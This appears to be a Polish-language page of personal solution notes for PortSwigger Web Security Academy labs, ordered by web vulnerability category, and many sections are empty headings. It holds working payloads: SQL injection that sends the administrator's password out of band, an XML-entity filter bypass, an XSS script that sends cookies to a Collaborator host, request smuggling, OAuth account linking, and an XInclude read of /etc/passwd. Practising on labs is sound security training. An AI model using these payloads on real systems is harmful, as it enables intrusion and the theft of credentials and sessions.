 ## SQL injection
### Blind SQL injection with out-of-band data exfiltration
```sql
TrackingId=x'+UNION+SELECT+EXTRACTVALUE(xmltype('<%3fxml+version%3d"1.0"+encoding%3d"UTF-8"%3f><!DOCTYPE+root+[+<!ENTITY+%25+remote+SYSTEM+"http%3a//'||(SELECT+password+FROM+users+WHERE+username%3d'administrator')||'.BURP-COLLABORATOR-SUBDOMAIN/">+%25remote%3b]>'),'/l')+FROM+dual--
```
1. Logujemy się jako administrator zdobytym hasłem.

### SQL injection with filter bypass via XML encoding
1. StoreId podmieniamy na:
```xml
<storeId>&#x31;&#x20;&#x55;&#x4e;&#x49;&#x4f;&#x4e;&#x20;&#x53;&#x45;&#x4c;&#x45;&#x43;&#x54;&#x20;&#x75;&#x73;&#x65;&#x72;&#x6e;&#x61;&#x6d;&#x65;&#x20;&#x7c;&#x7c;&#x20;&#x27;&#x7e;&#x27;&#x20;&#x7c;&#x7c;&#x20;&#x70;&#x61;&#x73;&#x73;&#x77;&#x6f;&#x72;&#x64;&#x20;&#x46;&#x52;&#x4f;&#x4d;&#x20;&#x75;&#x73;&#x65;&#x72;&#x73;</storeId>
```
Hackvertor
```sql
<storeId><@hex_entities>1 UNION SELECT username || '~' || password FROM users<@/hex_entities></storeId>
```
2. Logujemy się jako administrator

## Cross-site scripting
### Exploiting cross-site scripting to steal cookies
1. Exploit server:
```html
<script>
fetch('https://BURP-COLLABORATOR-SUBDOMAIN', {
method: 'POST',
mode: 'no-cors',
body:document.cookie
});
</script>
```
2. Podnieniamy cookie na zdobyte i wchodzimy na '/my-account`

## Cross-site request forgery (CSRF)

## Clickjacking

## DOM-based vulnerabilities

## Cross-origin resource sharing (CORS)

## XML external entity (XXE) injection

## Server-side request forgery (SSRF)
### SSRF with blacklist-based input filter
1. Podmieniamy stockApi na:
```
http://127.1/%2561dmin
```
 
## HTTP request smuggling
### Exploiting HTTP request smuggling to capture other users' requests
1. Tworzymy request, cookie będzie w komentarzu
```
POST / HTTP/1.1
Host: YOUR-LAB-ID.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 256
Transfer-Encoding: chunked

0

POST /post/comment HTTP/1.1
Content-Type: application/x-www-form-urlencoded
Content-Length: 400
Cookie: session=your-session-token

csrf=your-csrf-token&postId=5&name=Carlos+Montoya&email=carlos%40normal-user.net&website=&comment=test
```

## OS command injection

## Server-side template injection

## Directory traversal

## Access control vulnerabilities

## Authentication
### Brute-forcing a stay-logged-in cookie

## WebSockets

## Web cache poisoning

## Insecure deserialization

## Information disclosure

## Business logic vulnerabilities

## HTTP Host header attacks

## OAuth authentication
### Forced OAuth profile linking
1. Podczas logowania znajdujemy link łączący konta i podmieniamy go w kodzie poniżej i przeklejamy do exploit servera (dropujemy request, żeby nie został użyty)
```html
<iframe src="https://YOUR-LAB-ID.web-security-academy.net/oauth-linking?code=STOLEN-CODE"></iframe>
```
2. Sprawdzamy czy konta są połączone

## File upload vulnerabilities

## JWT

## Essential skills
### Discovering vulnerabilities quickly with targeted scanning
Podnieniamy productId na:
```html
<foo xmlns:xi="http://www.w3.org/2001/XInclude"><xi:include parse="text" href="file:///etc/passwd"/></foo>
```

## Prototype pollution
